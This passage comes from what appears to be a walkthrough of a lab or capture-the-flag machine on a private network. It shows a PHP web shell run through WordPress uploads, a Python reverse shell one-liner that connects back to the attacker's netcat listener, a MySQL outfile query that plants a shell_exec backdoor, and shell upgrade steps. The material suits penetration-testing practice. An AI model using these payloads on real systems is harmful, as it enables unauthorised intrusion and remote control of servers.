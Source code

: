 Throw a view-source: on to get a better view:

view-source:https://192.168.56.104:12380/blogblog/wp-content/uploads/system-webshell.php?cmd=ls


Ok, so we have execution, lets get a shell.
This time we set it on a port we expect the firewall to allow, 21 (ftp)

``` bash
# we need sudo because 21 is a reserved port
sudo nc -nvlp 21
```

Lets look to see what shells we can use:
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

I tend to have the most success with the python and perl shells when dealing with Linux, lets try the py one first:

https://192.168.56.104:12380/blogblog/wp-content/uploads/system-webshell.php?cmd=python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.56.1",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

We get a connection on our listener: 

```
listening on [any] 21 ...
connect to [192.168.56.1] from (UNKNOWN) [192.168.56.104] 58040
/bin/sh: 0: can't access tty; job control turned off
$ 
```

> Bonus backdoor with mysql outfile

while logged into the mysql service you can write a shell to the uploads root with the following:
``` mysql
select “<?php echo shell_exec($_GET[‘cmd’]);?>” into outfile ‘/var/www/https/blogblog/wp-content/uploads/mysql-shell.php’;
```

Execution is as before from the system-webshell.php route. This is riskier as there is no guarantee msql can write to the php executable directories, in this case however it can!

from here lets spawn full bash in our new shell

``` bash
python -c 'import pty; pty.spawn("/bin/bash")'

```

gives us

```
www-data@red:/var/www/https/blogblog/wp-content/uploads$ 
```

We have a good level of control, but we are still missing the easy use of our bash tty setup.

lets fix that, background the shell with Ctl^Z
then in your original terminal forward the settings and restart the backround reverse shell with the following commands
